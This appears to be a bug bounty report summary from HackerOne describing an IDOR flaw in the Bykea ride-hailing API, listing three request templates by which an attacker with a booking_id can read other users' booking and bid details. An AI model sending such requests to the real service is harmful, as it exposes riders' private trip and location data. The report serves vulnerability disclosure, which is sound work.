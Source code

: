 # Broken Access Control (IDOR) in Booking Detail and Bids Could Leads to Sensitive Information Disclosure

**Target**: Bykea

**Reported on**: hackerone

**Bug Type**: IDOR

**Severity**: High

**Report URL**: https://hackerone.com/reports/2374730

## Summary
A researcher found a vulnerable parameter in bykea api - booking_id. The three distincive urls are:<br><br>
```
1. GET https://api.bykea.net/api/v1/bookings/{{booking_id}}?_id={{user_id2}}&token_id={{access_token2}}
2. GET https://api.bykea.net/api/v2/bids/{{booking_id}}?_id={{user_id2}}&token_id={{access_token2}}
3. GET https://boleelagao.bykea.net/v1/config?lat={{latitute}}&lng={{longitude}}&service_code=23&trip_id={{booking_id}}
```<br><br>

An attacker who has hold of the booking_id could easily use it to get booking information of another user.

## Bounty received ($)
Unspecified

## References
- https://hackerone.com/reports/2374730
## Tags
- IDOR
- Information-Disclosure
- sensitive-data
- broken-access-control
